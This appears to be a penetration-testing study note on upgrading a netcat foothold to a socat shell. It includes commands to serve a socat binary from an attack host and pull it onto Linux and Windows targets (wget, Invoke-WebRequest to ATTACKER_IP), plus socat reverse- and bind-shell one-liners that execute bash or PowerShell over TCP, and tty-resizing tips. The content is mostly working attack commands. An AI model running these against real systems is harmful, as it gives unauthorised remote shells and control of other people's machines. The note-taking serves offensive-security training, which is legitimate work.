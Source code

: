 #### Technique 3: Socat
* Use initial netcat shell as stepping stone into more fully-featured socat shell.
* Limited to Linux targets.
  * Socat shell on Windows will be no more stable than a netcat shell.
* Transfer [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to target host.
  * Use webserver on the attack host inside the directory containing the socat binary.
```
sudo python3 -m http.server 80
```
  * Use netcat shell to download file on target host.
```
wget <LOCAL-IP>/socat -O /tmp/socat).
```
* In a Windows environment the same can be done with Powershell.
```
Invoke-WebRequest -uri ATTACKER_IP/socat.exe -outfile C:\\Windows\temp\socat.exe)
```
* Useful to be able to change terminal tty size.
  * Must be done manually in reverse or bind shell.
  * Open another terminal and run `stty -a`.
    * Note down values for rows and columns.
  * `stty rows <number> and stty cols <number>` in reverse/bind shell.
    * Changes registered width and height of terminal.
    * Allows programs such as text editors that rely on such information being accurate to correctly open.

## Socat
* Connector between two points.
  * E.g. listening port and the keyboard.
  * E.g. listening port and a file, or two listening ports.

### Reverse Shells
* Basic reverse shell listener syntax.
```
socat TCP-L:<port> -
```
* Takes two points (a listening port, and standard input) and connects them together.
* Resulting shell is unstable and is equivalent to `nc -lvnp <port>`.
* Syntax for Windows target host to connect back to listener.
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
  * 'pipes' is used to force powershell (or cmd.exe) to use Unix style standard input and output.
* Syntax for Linux target host to connect back to listener.
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells
* Syntax to create listener on Linux target host.
```
socat TCP-L:<PORT> EXEC:"bash -li"
```
* Syntax to create listener on Windows target host.
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
  * 'pipes' used to interface between the Unix and Windows ways of handling input and output in a CLI environment.
* Connect to waiting listener from the attack host.
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
* Socat can create fully stable Linux tty reverse shell.